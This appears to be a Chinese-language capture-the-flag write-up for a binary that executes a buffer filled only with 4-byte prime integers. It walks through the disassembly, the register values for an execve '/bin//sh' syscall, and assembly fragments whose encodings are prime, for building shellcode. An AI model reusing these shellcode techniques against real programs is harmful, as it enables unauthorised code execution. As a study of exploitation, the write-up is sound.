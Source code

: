 先观察rbp，其最后一次被改变是在 `0x000000000040057D` ，
```nasm
lea     rbp, [rsp+32]
```
这也是将buffer的地址加载到rbp里

再继续分析流程，`_scanf` 读入一个4字节无符号整数到rsi寄存器中存储的地址，即上一步r12的地址（涉及的代码如下），
```nasm
lea     r12, [rsp+28]
...
mov     rsi, r12
```
若输入非空则将那个数传给edi和地址 `[rsp+12]` ，并代入函数 `_Z6millerx` 做判断。判断成功则把那个数传给edx并写入 `[rsp+rax*4+32]` ，即buffer

总结一下，即只有被该程序判定为质数的4字节无符号整数才能被存入buffer并在输入为空后被执行，即我们得让shellcode可以被分成许多4字节质数输入内存。

## 构造shellcode

有用的网站：
- [Online x86 / x64 Assembler and Disassembler](https://defuse.ca/online-x86-assembler.htm#disassembly)

要用syscall调用shell，各个寄存器的值应是：

- rax : 0x3b (系统调用号)
- rdi : rsp的地址 (先要把/bin//sh压入栈顶)
- rdx : 0
- rsi : 0

可以考虑将shellcode分解成一系列小片段，较少连续性，易于形成质数。

- 注意：程序为小端序，shellcode执行也是从低地址到高地址，因此对应整数是倒过来看的
  
例如下面：

```nasm
    cdq         ;0x99
    push rdx    ;0x52
    cdq         ;0x99
    pop rsi     ;0x5e

    ;对应的就是0x5e995299
```

下面是作者找到的一些质数对应的汇编代码，基本覆盖全面

```nasm
    cdq
    push rdx
    cdq
    pop rsi

    cdq
    xor rax,rax

    cdq
    cdq
    push rdx
    cdq

    cdq
    push rdx
    pop rdi
    push rdx

    pop rdi
    pop rdi
    pop r9

```